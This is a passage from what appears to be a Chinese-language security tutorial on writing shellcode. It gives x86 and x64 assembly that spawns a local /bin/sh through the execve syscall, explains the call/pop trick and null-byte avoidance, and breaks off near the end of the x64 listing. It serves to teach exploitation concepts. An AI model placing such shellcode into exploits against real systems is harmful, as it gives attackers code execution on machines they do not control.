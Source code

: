 如你所见，在 shellcode 中执行这个并不难。你会发现，来自不同漏洞利用的绝大多数 shellcode（甚至是 Metasploit 中的 shellcode）都经过设计避免了空字节，即使漏洞利用本身不一定需要。

### 本地 shell shellcode

让我们从一个简单的例子开始，来启动一个 shell：

```
  jmp _end
_start:
  xor ecx, ecx
  xor eax, eax
  pop ebx     ; load /bin/sh in ebx
  mov al, 11   ; execve syscall ID
  xor ecx, ecx ; no arguments in ecx
  int 0x80     ; syscall
  mov al, 1    ; exit syscall ID
  xor ebx,ebx  ; no errors
  int 0x80     ; syscall
_end:
  call _start
  db '/bin/sh',0
```

让我们仔细看看这段代码：

1.  首先，它执行 `execve` 系统调用来启动一个进程，在这个例子中是 `/bin/sh`，即 shell。

1.  `execve` 系统调用的原型如下所示：

    ```
    int execve(const char *filename, char *const argv[], char
    *const envp[]);
    ```

1.  它通过使用 call/pop 技术获取绝对地址，将文件名 `/bin/sh` 设置到 `ebx` 中。

1.  在这种情况下不需要指定额外的命令行参数，所以 `ecx` 被设置为零（`xor`，`ecx`，`ecx` 以避免空字节）。

1.  在 shell 终止后，shellcode 执行 `exit` 系统调用，其定义如下：

    ```
    void _exit(int status);
    ```

1.  它将状态设置为零，在程序正常退出时将 `ebx` 设为零。

在这个例子中，你已经看到 shellcode 如何通过启动 `/bin/sh` 来为攻击者提供一个 shell。对于 x64 版本，有一些不同之处：

+   `int 0x80` 被一个特殊的 Intel 指令 `syscall` 替代。

+   `execve` 系统调用的 ID 已更改为 0x3b (59)，而 `exit` 的 ID 更改为 0x3c (60)。要知道每个 ID 代表什么功能，请查看官方的 Linux 系统调用表。

+   它使用 `rdi` 作为第一个参数，`rsi` 作为下一个参数，接着是 `rdx`、`rcx`、`r8`、`r9`，其余的在栈中。

代码将如下所示：

```
xor rdx, rdx
push rdx    ; null bytes after the /bin/sh
mov rax, 0x68732f2f6e69622f ; /bin/sh
push rax
mov rdi, rsp
push rdx    ; null arguments for /bin/sh
push rdi
mov rsi, rsp
xor rax, rax
mov al, 0x3b  ; execve system call
syscall
xor rdi, rdi
mov rax, 0x3c ; exit system call
```